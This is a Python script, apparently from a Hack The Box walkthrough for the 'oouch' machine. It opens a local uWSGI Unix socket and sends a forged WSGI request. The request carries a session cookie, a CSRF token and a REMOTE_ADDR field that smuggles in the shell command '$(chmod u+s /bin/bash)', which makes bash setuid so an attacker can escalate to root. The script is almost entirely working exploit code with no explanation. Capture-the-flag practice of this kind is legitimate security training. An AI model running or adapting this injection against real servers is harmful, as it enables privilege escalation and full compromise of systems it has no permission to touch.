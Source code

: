 ```python
        '<BHB',
        0,  # modifier1: 0 - WSGI (Python) request
        len(data),  # data size
        0,  # modifier2: 0 - always zero
    )
    print(header)
    socket.sendall(header)
    socket.sendall(data)
    print(socket.sendall('csrf_token=Ijg3YjgyMTRhNDQxZTJhNWUyMTQ1NGI1OTIzYjNjOGEyYzAzMDFkMGQi.Xlv6qg.cxrU6xp-WQWDDj5_IzD-iF3D-70&textfield=alert&submit=Send'.encode('utf-8')))

def dump_from_socket(socket, width=32):
    while True:
        chunk = socket.recv(width)
        print(chunk)
        if not chunk:
            break
        print('%-*s  %s' % (
            width * 2,
            hexlify(chunk).decode(),
            ''.join(b if b.isprintable() else '.' for b in chunk.decode('ascii', 'replace'))
        ))


def talk_to_uwsgi(host, port, path):
    #s = socket.socket()
    #s.connect((host, port))
    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.connect("/tmp/uwsgi.socket")
    print(s)
    send_uwsgi_request(s, {
        'PATH_INFO': path,
        'HTTP_HOST': 'consumer.oouch.htb',
        'REQUEST_METHOD': 'POST',
        'HTTP_COOKIE': 'session=.eJy9kb9OAzEMxl8lzcJSIV_-p0-BYGCAqnIcpz1xvUNNKoaq706AEbEggRfbsn_6_MkXuSsT1gNXuXm6SNF6kkeuFfcs1_JuYqwspmUvxlm0RSBRH4p2GKt47Tu3cntdf-fueT_WdsI2LrN4OH9C5TytxCNPtBxZ1Hl5q4Tz6pf8jWD6Ldu4NvEsf8D_zHJa0n9L4jQSf4hu1_3PJ64HuSk4Ve7tmOVGGkiKoh4yhaJ7qKjAQ7A-MJG2jqwyBDbZHC0mg4N22igXSibkpDNYn4pz5CK5HpGyRQs2AKUSjbOANCQXQoy-AID3JRVIznkXiy3edBNUT2XXlhee-z3Bp6AGg8YMrNByr61JNiqdNAVUBBqGDLlz58qnLxODvL4Dkk_jDQ.XlvGhA.DK61IKezdy9GLX14VLDcSgPviD4',
        'QUERY_STRING': '',
        'CONTENT_LENGTH': 130,
        'REMOTE_ADDR': '$(chmod u+s /bin/bash)',
        'CONTENT_TYPE': 'application/x-www-form-urlencoded'
    }.items())
    dump_from_socket(s)
    s.close()

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument('--host', default='localhost')
    ap.add_argument('--port', type=int, default=9090)
    ap.add_argument('path')
    args = ap.parse_args()
    talk_to_uwsgi(host=args.host, port=args.port, path=args.path)


if __name__ == '__main__':
    main()
```
